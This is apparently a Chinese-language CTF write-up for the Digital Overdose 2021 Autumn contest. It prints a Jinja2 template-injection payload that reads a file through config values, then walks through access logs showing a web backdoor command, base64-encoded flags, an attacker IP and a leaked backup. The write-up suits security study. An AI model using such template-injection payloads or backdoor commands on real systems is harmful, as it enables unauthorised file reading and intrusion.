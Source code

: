 ```
{%set x=config%}
{%set y=x.a%}
{%set z=config.b%}
{{z}}
{{y(z).read()}}
```

![image-20211021172308541](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211021172308541.png)

参考：[Digital Overdose 2021 Autumn CTF Writeup — madlib (web)](https://anakint.medium.com/digital-overdose-2021-autumn-ctf-writeup-madlib-web-c51c5ded5260)

## Log Analysis/Part1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
>
> We've recovered it now, but we don't want it to happen again.
>
> Here are the logs from before the attack, can you find out what happened?

给出了访问日志，有庞大的数据，n行~~，但是不太会看~~

在37557行出现了访问`/ywesusnz cmd%3Dcd+..`，往后还有一些ywesusnz开头的，37629行出现了`/ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ==`，b64解密

`DO{better_remove_that_backdoor}`

## Log Analysis/Part 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
>
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
>
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

仍然是给出了很多行的日志

![image-20211022081303705](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211022081303705.png)

发现了可疑的内容`DO{45.85.1.176}` 但是提交flag错误

（然后发现是很傻逼的把200.13.84.124当作flag交了……

## Log Analysis/Part 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

接着找，发现了/backup.zip的请求是200ok

但是交flag的时候不知道交啥，看了wp才发现藏在了UA头里

```
Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36
```
